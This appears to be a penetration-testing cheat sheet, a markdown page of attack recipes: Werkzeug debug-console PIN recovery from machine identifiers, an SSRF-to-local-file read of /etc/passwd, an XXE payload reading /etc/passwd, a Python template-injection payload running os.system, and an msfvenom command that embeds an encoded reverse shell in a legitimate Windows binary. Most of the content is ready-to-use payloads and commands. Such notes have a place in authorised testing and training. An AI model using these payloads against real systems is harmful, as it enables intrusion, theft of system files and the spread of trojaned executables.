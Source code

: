 ### wekzeug console pin exploit
[Exploit guide](https://www.daehee.com/werkzeug-console-pin-exploit/)
``` bash
# copy the exploit script and fill in all public and private bits
# getattr(mod, '__file__', None) is the absolute path of an app.py in the flask directory(see traceback)
# mac address = /sys/class/net/eth0/address
echo MAC | tr -d ":" #get the correct format
python -c 'print(0xFORMMATED_STRING)'#get the decimal value of the address
# For machine_id, check either
/etc/machine-id
/proc/sys/kernel/random/boot_id
# cgroup value
/proc/self/cgroup
#append the cgroup id to machine id
#then run the script to get PIN
#might have to change the hash type if the created PIN is incorrect
```

### SSRF to LFI
[SSRF to LFI](http://hassankhanyusufzai.com/SSRF-to-LFI/)
```bash
# Payload to check if the app vulnerable to SSRF
http://localhost:HTTP_PORT
# If it has a valid respond
file:///etc/passwd
```

### XXE
[detail guide](https://portswigger.net/web-security/xxe)

Example paylaod
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

### Python SSTI
```python
{% import os %}{{os.system('PAYLOAD')}} 
```

### Binary payload injection(msfvenom)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXIT_FUNC=thread -f exe -e x86/shikata_ga_nai -i 9 -x VALID_BINARY -o bad_binary.exe
```
## Non web vuln
Some services may have vulnerabilities that allow you to gain shell access.
